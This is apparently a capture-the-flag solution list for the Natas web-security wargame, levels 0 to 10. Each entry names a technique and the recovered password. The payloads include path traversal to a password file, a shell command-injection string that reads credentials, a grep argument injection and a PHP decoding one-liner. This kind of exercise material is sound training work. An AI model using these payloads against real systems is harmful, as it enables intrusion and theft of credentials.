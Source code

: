 # Natas

-   **natas0**: in comments (gtVrDuiDfck831PqWsLEZy5gyDz1clto)
-   **natas1**: in comments too (ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi)
-   **natas2**: /files/users.txt (sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14)
-   **natas3**: /robots.txt (Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ)
-   **natas4**: Referrer header (iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq)
-   **natas5**: cookie loggedin (aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1)
-   **natas6**: includes/secret.inc (7z3hEENjQtflzgnT29q7wAvMNfZdh0i9)
-   **natas7**: ?page=../../../../etc/natas~webpass~/natas8 (DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe)
-   **natas8**: `echo 'echo base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));' | php -a` (W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl)
-   **natas9**: `;cat /etc/natas_webpass/natas10; ls` (nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu)
-   **natas10**: `-v test /etc/natas_webpass/natas11` (U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK)
